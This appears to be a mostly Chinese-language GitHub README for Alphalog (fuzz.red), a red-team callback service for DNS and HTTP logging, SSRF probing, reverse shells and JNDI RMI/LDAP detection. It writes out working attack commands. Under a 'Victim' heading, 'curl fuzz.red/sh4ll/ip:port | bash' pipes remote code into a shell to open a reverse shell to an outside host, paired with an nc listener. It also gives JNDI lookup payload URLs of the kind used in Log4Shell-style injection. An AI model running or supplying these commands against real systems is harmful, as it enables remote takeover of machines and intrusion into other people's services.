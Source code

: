 <img src="fuzz.red.jpg">

# Alphalog

Alphalog 更快、更安全。支持完全匿名 产品(fuzz.red)

```bash
  $$$$$$\  $$\           $$\                 $$\                          
 $$  __$$\ $$ |          $$ |                $$ |                         
 $$ /  $$ |$$ | $$$$$$\  $$$$$$$\   $$$$$$\  $$ |      $$$$$$\   $$$$$$\  
 $$$$$$$$ |$$ |$$  __$$\ $$  __$$\  \____$$\ $$ |     $$  __$$\ $$  __$$\ 
 $$  __$$ |$$ |$$ /  $$ |$$ |  $$ | $$$$$$$ |$$ |     $$ /  $$ |$$ /  $$ |
 $$ |  $$ |$$ |$$ |  $$ |$$ |  $$ |$$  __$$ |$$ |     $$ |  $$ |$$ |  $$ |
 $$ |  $$ |$$ |$$$$$$$  |$$ |  $$ |\$$$$$$$ |$$$$$$$$\\$$$$$$  |\$$$$$$$ |
 \__|  \__|\__|$$  ____/ \__|  \__| \_______|\________|\______/  \____$$ |
               $$ |                                             $$\   $$ |
               $$ |                 By:Alphabug                 \$$$$$$  |
               \__|                 Version:0.2022.01.16.01      \______/
```

# Welcome to Fuzz.Red #

## Usage

1. Get token(`key`) and randomly named subdomain (Expires: 1 Day)

	```bash
	$ curl fuzz.red/get
	{"key":"63d755be-9683-40a9-91fb-b85890155872","subdomain":"oz4e.fuzz.red"}
	```

2. Get logs

	```bash
	$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872"
	{"code":200,"data":[]}
	```

### DNSLOG

```bash
ping -c 1 oz4e.fuzz.red
```

```bash
$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872"
{"code":200,"data":["{\"ip\":\"192.168.1.1\",\"reqbody\":[\"\"],\"subdomain\":\"oz4e.fuzz.red.\",\"time\":\"2022-01-14 17:01:17 +0800 CST\",\"type\":\"dns\"}"]} 
```

### HTTPLOG

```bash
curl oz4e.fuzz.red -d "abc"
```

```bash
$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872" | python -m json.tool
{
"Code": 200,
"Data": [
	{...}]
}
```

### SSRF

```bash
$ curl -L fuzz.red/ssrf/www.baidu.com/
<!DOCTYPE html>...(www.baidu.com page)...</html>
```


### 反弹shell

```bash
$ curl fuzz.red/sh4ll/ip:port
```

Victim

```bash
$ curl fuzz.red/sh4ll/1.2.3.4:1234 | bash
# or 
$ curl fuzz.red/sh4ll/1.2.3.4:1234 | sh
```

VPS

```bash
$ nc -lvvp 1234
listening on [any] 1234 ...
connect to [1.2.3.4] from fbi.gov [127.0.0.1] 46958
```

### RMI or LDAP 
PATH规则为“sub/text”,sub为子域名的主机头，text为自定义特征
例如：子域名=oz4e.fuzz.red，text=Alphabug
=> oz4e/Alphabug

```bash
rmi://jndi.fuzz.red:5/oz4e/Alphabug
# or
ldap://jndi.fuzz.red:5/oz4e/Alphabug
```
获取log
```bash
$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872" | python -m json.tool

{
	"Code": 200,
	"Data": [
		{
			"ip": "1.2.3.4:41584",
			"reqbody": "Alphabug",
			"subdomain": "oz4e.fuzz.red.",
			"time": "2022-01-16 03:40:03 -0500 EST",
			"type": "ldap"
		}
	]
}
```
## 作者有话说

###  项目名称为：Alphalog，作者Alphabug。
采用Go编写开发 DNS服务、Http服务等，后续等待开源。

项目域名为匿名域名，请求接口没有做任何的记录。所有dnslog存活时间为1天，大家可以亲测。

（请勿CC/DDos，服务器特别贵，可能没办法退钱）
       
## 项目日志：
- 2021年12月14日 17:30:35 第一个版本完成
- 2021年12月14日 20:14:57 特别感谢团队成员hexman、Longlone（WaY）测试提出的各类bug。
- 2021年12月14日 20:26:33 上架公测，我是Alphabug欢迎大家提需求，目的就是让dnslog扩展性更高，如果您有建议请邮箱联系我：alphabug@redteam.site
- 2021年12月14日 21:17:15 页面不再更新，Issue 上github吧。项目地址 https://github.com/AlphabugX/Alphalog
- 2022年01月15日 17:07:41 添加httplog功能，升级数据格式。
- 2022年01月15日 17:52:03 添加SSRF辅助功能。
- 2022年01月15日 18:52:42 添加反弹shell功能,支持bash、sh、nc、python、awk、telnet弹shell方法。
- 2022年01月16日 16:45:12 添加RMI、LDAP log功能，引用https://github.com/EmYiQing/JNDIScan核心模块，实现log查询。

## curl 效果日志
![image](https://user-images.githubusercontent.com/27001865/149620709-e02d8876-8320-445c-8cf3-151f653b04b3.png)

## www.fuzz.red 效果
![HQ@A20U5A3@EY$%82JG76 X](https://user-images.githubusercontent.com/27001865/149654871-c93be50f-5e42-4c6a-b1d2-447870285cb5.png)
